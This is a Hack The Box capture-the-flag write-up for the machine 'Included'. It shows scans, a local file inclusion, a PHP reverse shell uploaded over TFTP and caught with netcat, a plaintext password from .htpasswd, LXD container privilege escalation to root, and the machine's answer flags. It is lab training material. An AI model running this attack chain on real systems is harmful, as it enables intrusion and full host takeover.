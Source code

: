 # Included

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. What service is running on the target machine over UDP?

```sh
$ nmap -A -T4 10.129.95.185           
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 21:25 CET
Nmap scan report for 10.129.95.185
Host is up (0.090s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php
```

From our scan we can see only port 80, so let's see it.

The url has changed to `http://10.129.95.185/?file=home.php`.

We can use here `local file inclusion` and load `/ect/passwd`*(http://10.129.95.185/?file=/etc/passwd)*:

![passwd](./passwd.jpg)

We can see the user `tftp`, so probably it's our `UDP` service.

> tftp

#### 2. What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?

> local file inclusion

#### 3. What is the default system folder that TFTP uses to store files?

> /var/lib/tftpboot/

#### 4. Which interesting file is located in the web server folder and can be used for Lateral Movement?

As we have discovered `tftp` we can use it to upload php reverse shell and then open it in browser using `LFI`:

```sh
$ tftp 10.129.95.185 
tftp> put php-reverse-shell.php
Sent 5685 bytes in 0.5 seconds
```

So next set up netcat listener:

```sh
$ nc -l 9001
```

And open file in browser under `http://10.129.95.185/?file=/var/lib/tftpboot/php-reverse-shell.php`:

```sh
$ nc -l 9001
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:50:40 up 26 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@included:/$
```

We are in! So let's see what's inside web server folder:

```sh
www-data@included:/var/www/html$ ls -al
ls -al
total 88
drwxr-xr-x 4 root     root      4096 Oct 13  2021 .
drwxr-xr-x 3 root     root      4096 Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data   212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data    17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data 13828 Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data 20448 Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data  3704 Oct 13  2021 home.php
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 images
-rw-r--r-- 1 www-data www-data   145 Oct 13  2021 index.php
-rw-r--r-- 1 www-data www-data 17187 Apr 29  2014 license.txt
```

> .htpasswd

#### 5. What is the group that user Mike is a part of and can be exploited for Privilege Escalation?

```sh
www-data@included:/var/www/html$ cat .htpasswd  
cat .htpasswd
mike:Sheffield19
```

Let's login as mike:

```sh
www-data@included:/var/www/html$ su mike
Password: Sheffield19

mike@included:/var/www/html$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
```

> lxd

#### 6. When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?

```
LXD is a management API for dealing with LXC containers on Linux systems. It will
perform tasks for any members of the local lxd group. It does not make an effort to
match the permissions of the calling user to the function it is asked to perform.
```

```
A member of the local “lxd” group can instantly escalate the privileges to root on the
host operating system. This is irrespective of whether that user has been granted sudo
rights and does not require them to enter their password. The vulnerability exists even
with the LXD snap package.
```

[Here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) are described exact steps, that we need to perform.

> alpine

#### 7. What flag do we set to the container so that it has root privileges on the host system?

> security.privileged=true

#### 8. If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?

As I am on `MacOS` I had to do steps from previous link in `Pwnbox`:

```sh
sudo apt install snapd
sudo snap install distrobuilder --classic
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo /snap/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
python3 -m http.server 8000
```

From reverse shell:

```sh
mike@included:/tmp$ wget http://{local_IP}:8000/lxd.tar.xz
mike@included:/tmp$ wget http://{local_IP}:8000/rootfs.squashfs
mike@included:/tmp$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
mike@included:/tmp$ lxc image list
+--------+--------------+--------+-----------------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-----------------------------------------+--------+--------+-----------------------------+
| alpine | e521348739ed | no     | Alpinelinux 3.18 x86_64 (20240303_2131) | x86_64 | 2.94MB | Mar 3, 2024 at 9:37pm (UTC) |
+--------+--------------+--------+-----------------------------------------+--------+--------+-----------------------------+
mike@included:/tmp$ lxc init alpine privesc -c security.privileged=true
mike@included:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
mike@included:/tmp$ lxc start privesc
mike@included:/tmp$ lxc exec privesc /bin/sh
```

> /mnt/root/

#### Submit user flag

```sh
mike@included:/$ cat /home/mike/user.txt
cat /home/mike/user.txt
a56ef91d70cfbf2cdb8f454c006935a1
```

#### Submit root flag

```sh
/mnt/root/root # ^[[24;18Rcat root.txt
cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
```

## Final Flag

> `user`: a56ef91d70cfbf2cdb8f454c006935a1
> `root`: c693d9c7499d9f572ee375d4c14c7bcf

*Created by [bu19akov](https://github.com/bu19akov)*